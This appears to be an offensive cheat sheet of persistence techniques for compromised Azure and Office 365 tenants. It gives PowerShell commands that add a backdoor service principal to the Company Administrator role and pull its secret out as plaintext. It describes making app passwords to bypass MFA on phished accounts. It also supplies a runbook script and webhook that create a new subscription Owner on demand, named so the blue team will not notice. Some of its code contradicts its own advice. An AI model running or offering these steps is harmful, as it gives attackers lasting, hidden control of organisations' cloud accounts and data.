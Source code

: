 # Persistence
## Index
* [Service principal backdoor](#Service-principal-backdoor)
* [0365 App passwords](#0365-App-passwords)
* [Guest user accounts](#Guest-user-accounts)
* [Runbook backdoor with webhook](#GRunbook-backdoor-with-webhook)
* [Service principal global admin](#Service-principal-global-admin)

## Service principal backdoor
#### Create a new azure service principal
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```

#### Get service principal secret
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### set service principal in variable and role
```
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
```

#### Create backdoor, Add service prinicpal as a role member
```
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

#### List the members of the role
```
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

#### Login as service principal
- Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
```
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

## 0365 App passwords
- Use case is for apps that can't use MFA
- Perfect scenario if you phish an account with MFA
- Click "Security & Privacy", Then " Additional security verification", then "Create and manage app passwords"
- Click “Create”, give the app password a name, then copy the value.
- This can now be used to access the account using legacy protocols without the MFA requirement

## Guest user accounts
- By default users can add “guest users” from outside the directory
- This provides (at minimum) read access to the directory
- Hybrid deployments may sync from Azure > On-Prem

## Runbook backdoor with webhook
- Create a new Automation account with “Create Azure Run As Account” enabled
- Navigate to Azure Active Directory > Roles and Administrators> User administrator
- Click Add Assignments • Search for your new automation account and add it
- Navigate to Subscriptions > subscription name > Access control (IAM)
- Click Add Role Assignment and add the automation account as an “Owner”
- Navigate back to Automation Accounts and select your new account
- Click “Modules Gallery”
- Search for “Az.”
- Import the Az.Accounts module
- Import the Az.Resources module
- Now we need to import the actual runbook
- In the Automation Accounts menu click “Runbooks”
- Click “Import a runbook”
- Save the script below as a ps1 file and modify the “user”, “password”, “Nickname”, and “DisplayName” to whatever you want it to be.
```
Import-Module Az.Accounts
Import-Module Az.Resources
$user = “username@targetdomain.com"
$pass = "BackdoorFTW!!"
$Nickname = "BackupSVC"
$DisplayName = "backup_service"
$connectionName = "AzureRunAsConnection"
$servicePrincipalConnection = Get-AutomationConnection -Name $connectionName
Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -
ApplicationId $servicePrincipalConnection.ApplicationId -
CertificateThumbprint $servicePrincipalConnection.CertificateThumbprint
$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force
New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -
MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```
- When importing the script set a name to something similar to the standard Automation scripts “AzureAutomationTutorial”
- Set “Runbook Type” to PowerShell and click Create
- After the script is imported navigate to the runbook you just created and click “Webhooks” on the left, then Add Webhook
- Now give the webhook a name that will blend in like “backup”
- Make sure you copy the URL!!! This is the most important step.
- Now if the blue team catches you and cuts off your access you have a backdoor.
- All you have to do now is open a PowerShell terminal and run this to create a brand new Azure account that is owner of the subscription
- ```Invoke-WebRequest -Method Post -Uri <Webhook URL>```

## Service principal global admin
- This can be a bit less noticeable as service principal accounts do not show up in the Azure Active Directory “Users” list
-  Blue team should be alerting on new additions to global admins
- Instead of adding to “Company Administrator” just add it to “User Account Administrator” group.

#### Create a new service principal
- Note the “ApplicationId”. This is the service principal’s “username” for auth
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```

#### Get service principal's secret
- this is the password
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### Get the service principal using the application id
```
sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
```

#### Set the role
```
$role = Get-MsolRole -RoleName "Company Administrator"
```

#### Add the service principal as a role member
```
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

#### Check the role members
```
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

#### Authenticate as service principal
```
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant <Tenant ID> -ServicePrincipal
```
